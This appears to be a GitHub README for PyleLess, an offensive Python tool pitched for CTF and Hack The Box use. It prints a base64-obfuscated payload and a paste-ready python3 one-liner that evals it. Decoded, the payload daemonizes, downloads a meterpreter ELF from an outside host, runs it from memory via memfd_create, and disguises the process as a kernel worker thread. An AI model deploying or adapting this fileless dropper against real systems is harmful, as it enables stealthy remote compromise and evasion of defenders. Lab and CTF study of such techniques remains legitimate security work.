

# PyleLess

PyleLess is a tool for dropping and executing on a target machine a binary without ever touching the disk. The tool uses two techniques:

- The double `fork()` to deamonize our process.
- A call to `memfd_create()` to obtain a file descriptor and then write a file into RAM (and not into disk).

This can be practical in CTFs or on machines exploited during [Hack The Box](https://www.hackthebox.com/) challenges.

## How it works?

Only `python3` and the libraries:

- `base64`
- `os`
- `requests`

Are required.

To generate a payload, first replace the variables:

- `ip`
- `port`
- `file`

In <span style="color:red">src/pyleless.py</span> to suit your needs.

Then run the following command to generate a payload:

```bash
$ python3 pyleless.py
CmltcG9ydCBvcywgcmVxdWVzdHMKaWYgb3MuZm9yaygpPjA6CiAgICBleGl0KDApCm9zLmNoZGlyKCcvJykKb3Muc2V0c2lkKCkKb3MudW1hc2soMCkKaWYgb3MuZm9yaygpPjA6CiAgICBleGl0KDApCnByb3RvPSJodHRwIgppcD0iMTAuMC4yLjIiCnBvcnQ9IjgwMDAiCmZpbGU9Im1ldGVycHJldGVyLmVsZiIKZmQ9b3MubWVtZmRfY3JlYXRlKCIiKQpyPXJlcXVlc3RzLmdldCh1cmw9ZiJ7cHJvdG99Oi8ve2lwfTp7cG9ydH0ve2ZpbGV9IiwgdmVyaWZ5PUZhbHNlKQpvcGVuKGYiL3Byb2Mvc2VsZi9mZC97ZmR9IiwgIndiIikud3JpdGUoci5jb250ZW50KQpvcy5leGVjdmUoZiIvcHJvYy9zZWxmL2ZkL3tmZH0iLCBbIltrd29ya2VyLzM6MC1ldmVudHNdIl0sIHt9KQo=
```

Once the payload is generated, all you have to do is use it on the target machine in the following way:

```bash
$ python3 -c 'import base64;code="CmltcG9ydCBvcywgcmVxdWVzdHMKaWYgb3MuZm9yaygpPjA6CiAgICBleGl0KDApCm9zLmNoZGlyKCcvJykKb3Muc2V0c2lkKCkKb3MudW1hc2soMCkKaWYgb3MuZm9yaygpPjA6CiAgICBleGl0KDApCnByb3RvPSJodHRwIgppcD0iMTAuMC4yLjIiCnBvcnQ9IjgwMDAiCmZpbGU9Im1ldGVycHJldGVyLmVsZiIKZmQ9b3MubWVtZmRfY3JlYXRlKCIiKQpyPXJlcXVlc3RzLmdldCh1cmw9ZiJ7cHJvdG99Oi8ve2lwfTp7cG9ydH0ve2ZpbGV9IiwgdmVyaWZ5PUZhbHNlKQpvcGVuKGYiL3Byb2Mvc2VsZi9mZC97ZmR9IiwgIndiIikud3JpdGUoci5jb250ZW50KQpvcy5leGVjdmUoZiIvcHJvYy9zZWxmL2ZkL3tmZH0iLCBbIltrd29ya2VyLzM6MC1ldmVudHNdIl0sIHt9KQo=";eval(compile(base64.b64decode(code),"<string>","exec"))'
```

